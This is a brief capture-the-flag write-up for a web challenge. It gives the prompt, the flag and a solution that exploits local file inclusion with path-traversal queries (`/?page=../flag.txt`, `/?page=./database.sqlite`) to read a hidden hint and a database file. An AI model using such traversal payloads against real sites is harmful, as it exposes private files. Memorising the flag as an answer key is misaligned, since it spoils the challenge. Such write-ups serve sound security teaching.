 # Talk To You
My neighbor is a college student who built a website for his cousin. He's having some trouble with it. Could you help him figure out what's wrong?

https://tbtl-talk-to-you.chals.io/


# Flag
TBTL{4Typ1c41_d4T4B453_u54g3}


# Solution
Exploiting LFI and browsing to `/?page=../flag.txt`: 
```
<p style="color: rgba(0, 0, 0, 0)">
    Flag is in SQLite3: database.sqlite
</p>
```

Browsing to `/?page=./database.sqlite` show the flag.